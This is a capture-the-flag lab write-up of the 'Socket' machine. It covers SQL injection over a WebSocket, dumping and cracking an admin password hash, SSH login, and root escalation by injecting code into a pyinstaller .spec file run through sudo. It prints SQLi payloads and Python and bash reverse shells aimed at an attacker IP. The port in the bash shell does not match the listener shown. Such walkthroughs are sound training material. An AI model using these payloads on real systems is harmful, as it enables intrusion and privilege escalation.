




## Initial Enumeration
Initial nmap scanning reveals a web page, and an unusual open port only visible through full port scan:
```bash
# Nmap 7.93 scan initiated Sat Mar 25 21:05:47 2023 as: nmap -p- -oN portsweep 10.10.11.206
Nmap scan report for 10.10.11.206
Host is up (0.058s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5789/tcp open  unknown

# Nmap done at Sat Mar 25 21:05:47 2023 -- 1 IP address (1 host up) scanned in 35.78 seconds
```

The port is uncommon, so I decided to see what nmap script and version enumeration can tell me:

```bash
# Nmap 7.93 scan initiated Sat Mar 25 21:07:29 2023 as: nmap -sCV -p 22,80,5789 -oN nmap_initial.txt 10.10.11.206
Nmap scan report for 10.10.11.206
Host is up (0.043s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://qreader.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
5789/tcp open  unknown
| fingerprint-strings: 
|   GenericLines, GetRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 12 Jul 2023 19:34:47 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 12 Jul 2023 19:34:48 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Date: Wed, 12 Jul 2023 19:35:03 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5789-TCP:V=7.93%I=7%D=7/12%Time=64AF3896%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Wed,\x201
SF:2\x20Jul\x202023\x2019:34:47\x20GMT\r\nServer:\x20Python/3\.10\x20webso
SF:ckets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\n
SF:Connection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20c
SF:onnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.\
SF:n")%r(GetRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Wed
SF:,\x2012\x20Jul\x202023\x2019:34:47\x20GMT\r\nServer:\x20Python/3\.10\x2
SF:0websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/pla
SF:in\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocke
SF:t\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20requ
SF:est\.\n")%r(HTTPOptions,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:
SF:\x20Wed,\x2012\x20Jul\x202023\x2019:34:48\x20GMT\r\nServer:\x20Python/3
SF:\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20t
SF:ext/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20W
SF:ebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\
SF:x20request\.\n")%r(RTSPRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Wed,\x2012\x20Jul\x202023\x2019:34:48\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(Help,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nDate:\x20Wed,\x2012\x20Jul\x202023\x2019:35:03\x20GMT\r\nServer:\x20P
SF:ython/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Typ
SF:e:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x2
SF:0a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x
SF:20HTTP\x20request\.\n")%r(SSLSessionReq,F4,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Wed,\x2012\x20Jul\x202023\x2019:35:03\x20GMT\r\nSer
SF:ver:\x20Python/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nCo
SF:ntent-Type:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x
SF:20open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x
SF:20valid\x20HTTP\x20request\.\n");
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 25 21:07:29 2023 -- 1 IP address (1 host up) scanned in 92.72 seconds
```

We can see from `Server: Python/3.10 websockets/10.4`, that this unusual port is an open web socket. We will come back to this later.

### Examining the webpage

Trying to visit the box's ip address as `10.10.11.206` redirects us to `qreader.htb`. To properly  visit the webpage that should be visible on port 80, we must add the address to our `/etc/hosts` file:

```bash
$ echo "10.10.11.206 qreader.htb" >> /etc/hosts
```

Now the website is viewable.

We see the website advertised as a QR code reader:



We can test it out within the browser, or they allow us to download an offline version further below. There are options for windows or linux versions. Being on linux, I will use this version for now and hope there is no significant difference between the two.

```bash
$ file QReader_lin_v0.0.2.zip 
QReader_lin_v0.0.2.zip: Zip archive data, at least v1.0 to extract, compression method=store
```

### Analyzing the QR Code Reader

The zip contains an ELF binary for the QR code reader and a test.png to try it out



After translating test.png it returns the box creator's username. Nice touch.
Selecting the `about` tab, and trying to get info on either the version or updates will return this Connection error message. What could it be connecting to, perhaps our box's WebSocket port? 
Since the box itself is created and tested with static IP addresses, it isn't unreasonable to believe that when the box is moved to live environments with the hosting IP address constantly changing, that connection attempts like this one might fail. 

With the app open, I monitored the packet traffic data using `tcpdump`:
```
$ sudo tcpdump
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
<...SNIP...>
20:04:21.317409 IP 10.0.2.15.53274 > 108-166-149-2.client.mchsi.com.domain: 56266+ A? ws.qreader.htb. (32)
20:04:21.317495 IP 10.0.2.15.53274 > 108-166-149-2.client.mchsi.com.domain: 57288+ AAAA? ws.qreader.htb. (32)
20:04:21.338657 IP 108-166-149-2.client.mchsi.com.domain > 10.0.2.15.53274: 56266 NXDomain 0/1/0 (107)
20:04:21.338724 IP 108-166-149-2.client.mchsi.com.domain > 10.0.2.15.53274: 57288 NXDomain 0/1/0 (107)
```

When I query for updates, I see traffic pointing at `ws.qreader.htb`

I had hoped to see the data information being sent to the WebSocket, but for this case it was not necessary as the error responses were informative enough. I had heard the data can be retrieved through decompiling the binary file, but this is beyond my skill at the time.

### Examining the exposed WebSocket

Interacting with web sockets can be tricky. There are a variety of ways to do it, but I chose to utilize a [Simple WebSocket Client Plugin](https://addons.mozilla.org/en-US/firefox/addon/simple-websocket-client/) for FireFox. Loading the page, we can input our url as `ws://10.10.11.206:5789`



Fortunately for us, it looks as though an improper input provides us with a small list of options on how we might interact. Since the output was JSON format, it is likely that the input must be JSON as well. After exploring for a bit, I find another response when probing `ws://10.10.11.206:5789/update`


It was a bit of a lucky hit that any version not `0.0.2` will return a message like this, otherwise it could be more difficult finding the version naming conventions in use. Now returning to /version, I check what happens when I input the older version `0.0.1`:


There doesn't seem to be any extra information leaked through these queries. Upon closer inspection, however, we can eventually discover that these `/version` queries are SQL injectable.


Note that despite supplying the invalid version, we still receive the confirmation of version `0.0.2`. From here, we should be able to leak the database information.

## Foothold
### Manual enumeration with SQLi UNION injections

Eventually I find that the database is sqlite through the query `UNION SELECT sql from sqlite_master`:


```JSON
{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master-- -"}

{"message": {"id": "CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER)", "version": null, "released_date": null, "downloads": null}}
```

Note that this type of sql injection often depends on having the same number of columns as the usual output. Since typically this websocket is expected to provide 4 columns (id, version, release_date and downloads), I supplement my union injection with 3 columns of NULL.

This first output shows a table called `versions`, which is likely what we are already getting from non-injected queries. Dumping all tables might be slow this way, but we can do so by supplying `LIMIT` to our query:



Note that in this query I use `tbl_name`, so that the output isn't so long. Using `sql` provides us information on all column names from within the table, so it is useful to use once we find an interesting table. For a better word-wrapping experience, from this point on I put all outputs in code brackets

After dumping all tables, we see a full picture that looks like this:

```JSON
{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 1-- -"}

{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 2-- -"}

{"message": {"id": "CREATE TABLE info (id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT, value TEXT)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 3-- -"}

{"message": {"id": "CREATE TABLE reports (id INTEGER PRIMARY KEY AUTOINCREMENT, reporter_name TEXT, subject TEXT, description TEXT, reported_date DATE)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 4-- -"}

{"message": {"id": "CREATE TABLE sqlite_sequence(name,seq)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 5-- -"}

{"message": {"id": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 6-- -"}

{"message": {"id": "CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER)", "version": null, "released_date": null, "downloads": null}}
```

`Users` database is a clear standout, and may contain valuable credentials:

```JSON
{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master-- -"}

{"message": {"id": "CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER)", "version": null, "released_date": null, "downloads": null}}


{"version":"0.0.3\"UNION SELECT username,password,role,NULL FROM users where id = 1-- -"}

{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": "admin", "downloads": null}}

{"version":"0.0.3\"UNION SELECT username,password,role,NULL FROM users where id = 2-- -"}

{"message": "Invalid version!"}
```

After dumping credentials for `admin`, there are no other entries in the table.
Before leaving the sql database, we should explore some of the other tables. This turned out to be a good idea, because more useful information is found in the `answers` table:

```JSON
{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 1-- -"}

{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT answered_by,answer,status,NULL FROM answers where id = 1-- -"}

{"message": {"id": "admin", "version": "Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller", "released_date": "PENDING", "downloads": null}}

{"version":"0.0.3\"UNION SELECT answered_by,answer,status,NULL FROM answers where id = 2-- -"}

{"message": {"id": "admin", "version": "Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "released_date": "PENDING", "downloads": null}}

{"version":"0.0.3\"UNION SELECT answered_by,answer,status,NULL FROM answers where id = 3-- -"}

{"message": "Invalid version!"}
```

We see messages from an id of `admin`, where he signs off as Thomas Keller. This can give us potential ideas as to what username(s) might be on the machine.

#### Bonus: using SQLMap to dump the database

Because the SQL injection is done through a WebSocket interaction, utilizing SQLMap is a little more complex than usual. Although SQLMap has WebSocket compatibility, it has been difficult to properly launch in my experience. However, there is a [nice blog article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that highlights a clever approach to using sqlmap over a WebSocket. In this approach, the author sets up a python server script that will receive SQLMap's queries, transform the payload to a relevant JSON query, then redirect it to the WebSocket of interest.

First, the python redirection script needs to be updated to our situation. The ws_server value must be changed, and also the payload replace line must be altered.
Line 6:
```
ws_server = "ws://10.10.11.206:5789/version"
```
Line 14:
```python
message = unquote(payload).replace("'",'\\\"') # replacing " with ' to avoid breaking JSON structure
data = '{"version":"%s"}' % message
```

Now we can run the python script, and in a new tab initiate sqlmap.

```
$ python wserv.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*

```

And finally run sqlmap:

```bash
$ sqlmap -u http://localhost:8081/?id=0.0.1 --tables --dump
```

##### SQLMap output:
Database: <current>  
Table: reports  
[2 entries] 
```markdown
| id | subject                   | description                                                                                                         | reported_date | reporter_name |
|----|---------------------------|---------------------------------------------------------------------------------------------------------------------|---------------|---------------|
| 1  | Accept JPEG files         | Is there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?           | 13/08/2022    | Jason         |
| 2  | Converting non-ascii text | When I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this. | 22/09/2022    | Mike          |
```
Database: <current>  
Table: users  
[1 entry]  
```markdown
| id | role  | password                         | username | 
|----|-------|----------------------------------|----------|
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    | 
```
Database: <current>  
Table: answers  
[2 entries]  
```markdown
| id | report_id | answer                                                                                                                                                             | status  | FOREIGN | answered_by | answered_date |
|----|-----------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------|---------|---------|-------------|---------------|
| 1  | <blank>   | Hello Json, As if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.                                                    | PENDING | <blank> | admin       | 17/08/2022    |
| 2  | <blank>   | Hello Mike, We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now! Thomas Keller | PENDING | <blank> | admin       | 25/09/2022    |
```
SQLMap produces everything very fast in case we missed something, but it was a little tricky to set up this time. If the SQLi type had been a blind injection, enumerating everything by hand can be extremely time consuming. It is good to know how we might make automation for this task possible.

### Authenticating through ssh

With exploration of the database finished, we can finally move on to the obtained Administrator credentials. Since it is information stored in the sqlite table, it is highly likely to be a password hash. Fortunately enough, we don't even have to crack it ourselves. A quick trip over to [crackstation](https://crackstation.net/), and we get the plaintext password immediately.


We now have creds as `Admin:denjanjade122566`

Trying to log in through ssh:
```bash
$ ssh admin@qreader.htb
admin@qreader.htb's password: 
Permission denied, please try again.
```

The password doesn't work for the user `admin`, but based on the other messages we gleaned from the database we know his name as well. On my first guessing combination, I land at a successful login for `tkeller`

```bash
$ ssh tkeller@qreader.htb
tkeller@qreader.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)
```

One tool that might be helpful for generating usernames from full names is [username_anarchy](https://github.com/urbanadventurer/username-anarchy). In this case because of my lucky guess, I did not need to use.


At this point the `user.txt` is up for grabs.

## Privilege Escalation
### Enumeration:
Checking `tkeller's` sudo privileges,

```bash
tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

We see that we can run `build-installer.sh` as any user, including root.

```bash
tkeller@socket:~$ cat /usr/local/sbin/build-installer.sh
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

All binaries are defined by full path, so we cannot get an easy win through PATH abuse.

Looking at segments where we might supply our own input, we can see under 'build' and 'make' options, we supply the file names following `pyinstaller`. Pyinstaller is used to compile easily-launchable binary files from python code. In this situation, pyinstaller is used so that the QReader code, written in python, can exist in a single executable for users to download. `Pyinstaller` compiling can be well customized through use of `.spec` files, which it uses to determine how to process your python script. More info can be found [here]](https://pyinstaller.org/en/stable/spec-files.html). Since we are running pyinstaller as root, perhaps we can define in the `.spec` file for root to do other actions. 

### Using the `make` script to produce a .spec template

For testing around, I used a python rev shell script. The python file's contents shouldn't matter, but I figured why not.

rev.py:
```python
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",8001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("sh")
```

Running `make` once on this creates a .spec file for us to use and create our own executable:

```bash
tkeller@socket:/tmp/$ sudo /usr/local/sbin/build-installer.sh make rev.py 
384 INFO: PyInstaller: 5.6.2
384 INFO: Python: 3.10.6
387 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
387 INFO: wrote /tmp/qreader.spec
<...SNIP...>

tkeller@socket:/tmp/$ cat qreader.spec 
# -*- mode: python ; coding: utf-8 -*-


block_cipher = None


a = Analysis(
    ['rev.py'],
    pathex=[],
    binaries=[],
    datas=[],
    hiddenimports=[],
    hookspath=[],
    hooksconfig={},
    runtime_hooks=[],
    excludes=[],
    win_no_prefer_redirects=False,
    win_private_assemblies=False,
    cipher=block_cipher,
    noarchive=False,
)
pyz = PYZ(a.pure, a.zipped_data, cipher=block_cipher)

exe = EXE(
    pyz,
    a.scripts,
    a.binaries,
    a.zipfiles,
    a.datas,
    [],
    name='qreader',
    debug=False,
    bootloader_ignore_signals=False,
    strip=False,
    upx=True,
    upx_exclude=[],
    runtime_tmpdir=None,
    console=True,
    disable_windowed_traceback=False,
    argv_emulation=False,
    target_arch=None,
    codesign_identity=None,
    entitlements_file=None,
)
```

Now that we have a proper `.spec` file, we can begin to make small changes that might allow us to execute actions as root. 

### Subprocess execution in pyinstaller .spec file

The pyinstaller documents appear to suggest this .spec file can also interpret python code. And so, I make a simple addition to it that will execute a `.sh` script and, in that script, I provide a simple reverse shell.

rev.sh:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.101/18 0>&1
```
At the top of the `.spec` file I include imports and a `popen` command:

```python
tkeller@socket:/tmp/1$ head qreader.spec 
# -*- mode: python ; coding: utf-8 -*-


block_cipher = None

import subprocess

subprocess.Popen('/tmp/rev.sh', shell=True)

a = Analysis(
```

Now upon calling `build`, pyinstaller should invoke the .spec file and subsequently open my `rev.sh` as root, giving me an interactive session.

```bash
tkeller@socket:/tmp/$ sudo /usr/local/sbin/build-installer.sh build qreader.spec 
124 INFO: PyInstaller: 5.6.2
124 INFO: Python: 3.10.6
127 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
130 INFO: UPX is not available.
131 INFO: Extending PYTHONPATH with paths
['/tmp/']
<...SNIP...>
8829 INFO: Building EXE from EXE-00.toc completed successfully.
tkeller@socket:/tmp$
```

Meanwhile in another terminal session:
```bash
$ nc -nvlp 8001                                            
listening on [any] 8001 ...
connect to [10.10.14.101] from (UNKNOWN) [10.10.11.206] 37536
root@socket:/tmp/1#
```

## Reflection
The difficulty of this box is primarily focused in the WebSocket interaction, true to the box name. The SQLi vulnerability can be easily missed, and without extra help, SQLMap can give a lot of problems as well. As a final hit to those manually exploiting, retrieving the password hash is not enough information to access the box. However, once this challenge is overcome, privilege escalation to root authority is much simpler and flexible.  I learned several new things on the box, in particular I appreciate learning about rayhan0x01's solution to using SQLMap for WebSocket tasks.
